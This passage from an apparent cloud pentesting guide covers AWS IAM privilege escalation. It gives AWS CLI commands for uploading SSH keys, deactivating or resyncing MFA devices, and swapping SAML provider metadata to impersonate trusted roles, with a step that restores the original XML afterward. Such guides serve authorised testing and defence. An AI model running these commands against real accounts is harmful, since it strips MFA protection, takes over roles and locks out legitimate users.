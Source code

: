 **Impact:** Direct privilege escalation by assuming any role's permissions.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Permits uploading an SSH public key for authenticating to CodeCommit and deactivating MFA devices, leading to potential indirect privilege escalation.

**Exploit for SSH Key Upload:**

```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```

**Exploit for MFA Deactivation:**

```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```

**Impact:** Indirect privilege escalation by enabling CodeCommit access or disabling MFA protection.

### **`iam:ResyncMFADevice`**

Allows resynchronization of an MFA device, potentially leading to indirect privilege escalation by manipulating MFA protection.

**Bash Command:**

```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
    --authentication-code1 <code1> --authentication-code2 <code2>
```

**Impact:** Indirect privilege escalation by adding or manipulating MFA devices.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

With these permissions you can **change the XML metadata of the SAML connection**. Then, you could abuse the **SAML federation** to **login** with any **role that is trusting** it.

Note that doing this **legit users won't be able to login**. However, you could get the XML, so you can put yours, login and configure the previous back

```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```

